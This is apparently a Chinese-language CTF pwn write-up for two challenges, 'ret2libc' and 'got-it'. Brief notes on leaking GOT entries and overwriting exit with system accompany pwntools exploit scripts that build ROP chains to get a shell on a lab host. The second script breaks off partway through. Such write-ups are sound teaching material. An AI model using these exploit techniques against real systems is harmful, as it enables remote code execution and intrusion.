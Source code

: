 ## 我后门呢

> aka ret2libc
>
> 目前只要知道，`parital relro`下，调用库函数一次之后，`got`表中会存放`libc`相关地址即可。剩余内容可以参考[ctf-wiki](https://ctf-wiki.org/)。

泄露got表项，计算libc基址，然后打one_gadget（可以查一下）或者`flat([rdi,binsh,system])`都行

```py
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
#s=process("./ret2libc")
s=remote("192.168.3.253",51005)
elf=ELF("../dist/ret2libc")
libc=ELF("../dist/libc.so.6")
s.recvuntil(b"input:\n")
rdi=0x0000000000401333
p=flat([
    b"\x00"*0x20,
    0x404000,
    rdi,elf.got.puts,
    elf.plt.puts,
    elf.sym.main,
])
s.sendline(p)
s.recvline()
libc.address=u64(s.recvline()[:-1].ljust(8,b"\x00"))-libc.sym.puts
success(hex(libc.address))
r12__r15=0x000000000040132c
p=flat([
    b"\x00"*0x20,
    0x404000,
    r12__r15,0,0,0,0,
    libc.address+0xe3afe,
])
s.sendline(p)
s.interactive()
```

## got-it

> 延迟绑定，got表里存的究竟是啥
> 
> 细节想问的直接私聊我吧

给了`exit("/bin/sh")`，bss上数组没有检查下界。

`show` got表项拿libc，把`exit`的got表改成`system`地址，最后走0x2023就可以拿shell了。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=process("./got-it")
s=remote("192.168.3.253",51006)
libc=ELF("../dist/libc.so.6")

def menu(ch):
    s.sendlineafter(b">> ",str(ch).encode())
def show(idx):
    menu(2)
    s.sendlineafter(b"id: ",str(idx).encode())
    s.recvuntil(b"name: ")
    return s.recvline()[:-1]
def edit(idx,name):
    menu(3)
```
